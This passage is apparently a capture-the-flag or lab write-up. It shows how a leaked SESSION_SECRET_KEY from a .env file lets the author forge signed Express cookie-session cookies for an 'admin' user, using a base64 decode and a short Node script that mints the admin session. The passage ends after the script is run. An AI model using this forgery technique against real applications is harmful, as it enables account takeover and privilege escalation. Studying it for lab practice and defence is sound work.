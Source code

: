 From the `database.js`, we can see that we can not get `admin` password since it is a randomly-generated 16 bytes character. 

But from the `.env` file, we can see that we have the `SESSION_SECRET_KEY` that is used to generate the session cookie of users.

This is interesting. We can forge the admin cookie if we know the session secret and the cookie format.

Let us examine our user’s cookie now.

```bash
~ ❯ echo eyJ1c2VybmFtZSI6Im5laGFsIn0= | base64 -d
{"username":"nehal"}
```

The `session` cookie contains a Base64 encoded JSON object which contains the username.

The next cookie is `session.sig` which as the name suggests, probably contains the signature of the `session` cookie. 

So using the session secret and `session.sig` cookie, the server is checking if the `session` cookie is tampered or not.

Now our goal is to forge the `session` and `session.sig` cookies for the `admin` user.

For this we have to create a similar situation here.

We have to create a similar application that maintains the session using the same session secret. Then we have to create a session for `admin` to get his cookies.

```jsx
var cookieSession = require('cookie-session')
var express = require('express')

var app = express()

app.use(cookieSession({
  name: 'session',
  keys: ['5921719c3037662e94250307ec5ed1db']
}))

app.get('/', function (req, res, next) {
  req.session.username = "admin"
  res.end('Hacked By Nehal.')
})

app.listen(3000)
```

The above is a simple `express` application. 

It has a single route `/`. When we request for that route, a session will be created for `admin` user using the same session secret that we found in the `.env` file.

```bash
mutation-lab ❯ node app.js
```

